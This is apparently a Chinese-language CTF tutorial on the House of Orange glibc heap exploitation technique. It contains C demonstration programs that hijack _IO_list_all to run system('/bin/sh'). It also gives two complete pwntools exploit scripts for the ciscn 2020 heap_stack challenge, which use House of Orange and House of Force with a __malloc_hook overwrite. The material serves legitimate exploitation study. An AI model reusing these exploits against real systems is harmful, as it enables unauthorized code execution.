







House Of Orange
本质：Unsorted bin attack 和 FSOP造成的组合漏洞利用方式。
House of orange源于一道题目，有时候只用到free top chunk的题目也会被归入该类中。
glibc版本<=2.23情况
特点：不需要free操作
核心原理：
1，获取unsorted bin
在_int_malloc函数中，会依次检验 fastbin、small bins、unsorted bin、large bins 是否可以满足分配要求，因为尺寸问题这些都不符合。接下来_int_malloc函数会试图使用 top chunk，在这里 top chunk 也不能满足分配的要求，则执行 sysmalloc 来向系统申请更多的空间。这时top_chunk会被放入unsorted bin中（ top chunk size 满足一定条件）。
由于top chunk size一般会很大，一般采用直接伪造其大小，具体伪造的原理参考wiki，https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/house_of_orange-zh/，这里这里只给出伪造的 top chunk size 的要求
伪造的 size 必须要对齐到内存页
size 要大于 MINSIZE(0x10)
- size 要小于之后申请的 chunk size + MINSIZE(0x10)
- size 的 prev inuse 位必须为 1
演示程序
#include<stdio.h>
#include<stdlib.h>
#define fake_size 0x1fe1
int main(void)
{
void *ptr;
int i;
ptr=malloc(0x10);
ptr=(void *)((int)ptr+24);
*((long long*)ptr)=fake_size;
malloc(0x2000);
malloc(0x60);
}
fake_size 可以是 0x0fe1、0x1fe1、0x2fe1、0x3fe1 等对 4kb 对齐的 size，这里选择了0x1fe1。
执行malloc(0x2000)之后的结果，成功使原先top chunk放入了unsorted bin

再次执行malloc(0x60)会从unsorted bin中切出。

并且此时堆地址和libc地址信息都被泄露了，看到有些博客说必须申请large bin大小的chunk才会出现堆泄露，但这里我声请一个小的chunk也可以实现泄露，暂时存疑。

2，Unsorted Bin Attack
Unsorted Bin Attack的原理不再赘述，其结果是修改任意地址变成一个大数字（这里这个数字就是unsorted bin的地址）。这里这个被修改的是_IO_list_all指针，这里使他指向unsorted bin。
3，FSOP
这里_IO_list_all指向unsorted bin的地址。
演示代码
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int winner ( char *ptr);
int main()
{
char *p1, *p2;
size_t io_list_all, *top;
p1 = malloc(0x400-16);
top = (size_t *) ( (char *) p1 + 0x400 - 16);
top[1] = 0xc01;
p2 = malloc(0x1000);
io_list_all = top[2] + 0x9a8; //get real addr of io_list_all
top[3] = io_list_all - 0x10; //unsorted bin->bk = io_list_all - 0x10
memcpy( ( char *) top, "/bin/sh\x00", 8); //fake_file->_flags
top[1] = 0x61; //fake_size
FILE *fp = (FILE *) top;
fp->_mode = 0; // top+0xc0
fp->_IO_write_base = (char *) 2; // top+0x20
fp->_IO_write_ptr = (char *) 3; // top+0x28
size_t *jump_table = &top[12]; // controlled memory
jump_table[3] = (size_t) &winner;
*(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top+0xd8
malloc(10);
return 0;
}
int winner(char *ptr)
{
system(ptr);
return 0;
}
执行malloc(10)前，对unsorted bin的伪造

注：这里fake_size为0x61是因为_chain在FILE结构体中偏移量是0x68
补充：GDB提供了格式化输出显示结构体的选项，set print pretty off， 这个选项的默认是关闭的。打开该选项set print pretty on再次打印结构体，结果如下：我TM直接就快乐了

执行malloc(10)后_IO_list_all指向了unsorted bin头节点的位置，此时smallbin[4]里放的就是我们之前魔改过的被放入unsorted bin的chunk了，并且正好偏移量0x60，这也就是为什么伪造fake_size为0x61。

malloc(10)的过程：伪造的unsorted bin脱链进入对应的small bin，并且通过unsorted bin attack使_IO_list_all指向了unsorted bin的头结点========>程序异常========>进行_IO_flush_all_lockp========>第一个FILE结构_mode异常未能触发_IO_OVERFLOW========>遍历到第二个FILE结构成功触发利用。
注：这里的触发具有一定概率，1/2的可能性，具体1/2如何得出尚待考证。这里给出angelboy的一张截图。

最后触发system("/bin/sh")的流程
__libc_malloc => malloc_printerr => __libc_message => abort => _IO_flush_all_lockp
栈回溯

效果图：程序打印异常后成功getshell

例1 ciscn 2020 华东北分区赛 heap_stack
最经典的例题就是 hitcon-2016-houseoforange，但感觉那个稍微复杂一点，有一些别的东西参杂在里面，这道heap_stack相对来说作为例题来看更加清楚。
保护机制

main函数逻辑，思路比较清晰，没有free函数
void __fastcall main(__int64 a1, char **a2, char **a3)
{
init_clear();
puts("######## HEAPSTACK ########");
while ( 1 )
{
menu();
getNum();
switch ( choice )
{
case 1u:
push();
break;
case 2u:
puuuuuush();
break;
case 3u:
pop();
break;
case 4u:
show();
break;
case 5u:
exit(0);
return;
default:
puts("bad choice!\n");
break;
}
}
}
push函数
unsigned __int64 push()
{
__int64 nbytes; // ST00_8
size_t size; // ST08_8
void *buf; // ST10_8
unsigned __int64 v4; // [rsp+18h] [rbp-8h]
v4 = __readfsqword(0x28u);
if ( note_num[0] <= 9 )
{
puts("size?");
nbytes = getNum();
size = nbytes & 0xFFF;
buf = malloc(size);
puts("content?");
read(0, buf, nbytes);
printf("Malloc at %p.\n", buf, nbytes, size);
notes[note_num[0]] = buf;
++note_num[0];
}
return __readfsqword(0x28u) ^ v4;
}
puuuuuush函数
unsigned __int64 puuuuuush()
{
__int64 size; // ST08_8
void *buf; // ST10_8
unsigned __int64 v3; // [rsp+18h] [rbp-8h]
v3 = __readfsqword(0x28u);
if ( puuuuuush_time && note_num[0] <= 9 )
{
puts("size?");
size = getNum();
buf = malloc(size);
puts("content?");
read(0, buf, size);
printf("Malloc at %p.\n", buf, size, size);
notes[note_num[0]] = buf;
++note_num[0];
--puuuuuush_time;
}
return __readfsqword(0x28u) ^ v3;
}
pop函数
unsigned __int64 pop()
{
unsigned __int64 v1; // [rsp+8h] [rbp-8h]
v1 = __readfsqword(0x28u);
if ( note_num[0] )
--note_num[0];
return __readfsqword(0x28u) ^ v1;
}
show函数
unsigned __int64 show()
{
unsigned __int64 v1; // [rsp+8h] [rbp-8h]
v1 = __readfsqword(0x28u);
if ( show_time )
{
write(1, notes[note_num[0] - 1], 8uLL);
--show_time;
}
return __readfsqword(0x28u) ^ v1;
}
- push函数存在堆溢出问题申请0x1010的堆，实际得到0x20大小的chunk，并且可以写入0x1010个字节，并且它泄露了堆地址
- puuuuuush函数属于不存在溢出的声请，这里可以用来声请大小>0x1000的chunk
- pop函数是是直接实现note_num--
- show函数只能用一次，那么必然是泄露libcbase用
这里思路相对简单，直接给出exp
from pwn import *
context.update(arch='amd64',os='linux',timeout=1)
context.log_level='debug'
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def push1(size,content):
p.sendlineafter('>> ','1')
p.sendlineafter('size?',str(size))
p.sendafter('content?',content)
def push2(size,content):
p.sendlineafter('>> ','2')
p.sendlineafter('size?',str(size))
p.sendafter('content?',content)
def pop():
p.sendlineafter('>> ','3')
def show():
p.sendlineafter('>> ','4')
def pr(a,addr):
log.success(a+'===>'+hex(addr))
def hack():
push1(0x1010,'\x00'*0x18+p64(0xfe1))
p.recvuntil('Malloc at ')
heapbase = int(p.recvuntil('.')[:-1],16) - 0x10
push2(0x2000,'\x00')
push1(0x10,'\x78')
show()
leak = u64(p.recv(8))
libcbase = leak - (0x7fbec8029178 - 0x7fbec7c64000)
_IO_list_all = libcbase + libc.sym['_IO_list_all']
system = libcbase + libc.sym['system']
pr('heapbase',heapbase)
pr('libcbase',libcbase)
pr('_IO_list_all',_IO_list_all)
pr('system',system)
fake_vtable_addr = heapbase + 0x60 + 0xd8 + 8
unsortedbin = '\x00'*0x10 + '/bin/sh\x00'+p64(0x61)
unsortedbin += p64(0xdeadbeef) + p64(_IO_list_all - 0x10)
unsortedbin += p64(0) + p64(1)
unsortedbin = unsortedbin.ljust(0x10+0xd8,'\x00') + p64(fake_vtable_addr)
fake_vtable = p64(0)*3 + p64(system)
payload = unsortedbin + fake_vtable
push1(0x1010,payload)
p.sendlineafter('>> ','1')
p.sendlineafter('size?','16')
#gdb.attach(p)
p.interactive()
while True:
try:
global p
p = process('./heap_stack')
hack()
#break
except:
p.close()
print 'trying...'
另外一种思路 house of lore + house of force
#!/usr/bin/python
#coding:utf-8
from pwn import *
context.log_level='debug'
context.update(arch='amd64',os='linux',timeout=1)
io=process("./heap_stack")
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def push(size,ct='a'):
io.sendlineafter(">> ",'1')
io.sendlineafter("size?\n",str(size))
io.sendafter("content?\n",ct)
def puush(size,ct='a'):#1
io.sendlineafter(">> ",'2')
io.sendlineafter("size?\n",str(size))
io.sendlineafter("content?\n",ct)
def pop():
io.sendlineafter(">> ",'3')
def show():#1
io.sendlineafter(">> ",'4')
def main():
push(0x1010,'a'*0x10+p64(0)+p64(0xfe1))
push(0xfe0)
push(0x1fb0)
show()
libc_base=u64(io.recv(8))-0x3c5161+0x600
log.success("libc_base==>"+hex(libc_base))
push(0x1010,'a'*0x10+p64(0)+p64(0xffffffffffffffff))
io.recvuntil("at ")
top_chunk=int(io.recv(14),16)+0x10
log.success("top_chunk==>"+hex(top_chunk))
malloc_hook=libc_base+0x3c4b10
realloc=libc_base+0x84710
ogg=libc_base+[0x45226,0x4527a,0xf0364,0xf1207][1]
log.success("realloc==>"+hex(realloc))
puush(malloc_hook - top_chunk -0x30)
push(0x20,p64(0)+p64(ogg)+p64(realloc+4))
io.sendlineafter(">> ",'1')
io.sendlineafter("size?\n",str(0x10))
#gdb.attach(io,'b *{}'.format(ogg))
io.interactive()
if __name__=='__main__':
main()